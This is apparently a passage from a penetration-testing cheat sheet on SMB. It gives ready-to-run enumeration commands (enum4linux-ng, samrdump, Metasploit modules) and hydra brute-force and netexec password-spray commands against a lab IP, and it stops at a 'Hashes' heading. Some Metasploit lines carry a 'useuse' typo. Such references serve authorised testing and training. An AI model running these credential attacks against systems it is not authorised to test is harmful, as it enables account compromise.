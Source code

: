 ### Other

{% tabs %}
{% tab title="Enum (1)" %}
```bash
/opt/enum4linux-ng/enum4linux-ng.py 172.16.10.3 -A
```
{% endtab %}

{% tab title="Enum (2)" %}
```bash
/opt/impacket/examples/samrdump.py 172.16.10.3
```
{% endtab %}

{% tab title="Version" %}
```bash
msf6 > useuse auxiliary/scanner/smb/smb_version
```
{% endtab %}

{% tab title="User Enum" %}
<pre class="language-bash"><code class="lang-bash"><strong>msf6 > useuse auxiliary/scanner/smb/smb_login
</strong></code></pre>
{% endtab %}
{% endtabs %}

## Attacks

### Passwords

{% tabs %}
{% tab title="BFA" %}
```bash
hydra -L user.list -P password.list smb://172.16.10.3
```
{% endtab %}

{% tab title="Spray (Domain)" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success
```
{% endtab %}

{% tab title="Spray (Local)" %}
{% code overflow="wrap" %}
```bash
nxc smb 172.16.10.3 -u users.lst -p Password123! --continue-on-success --local-auth
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Hashes
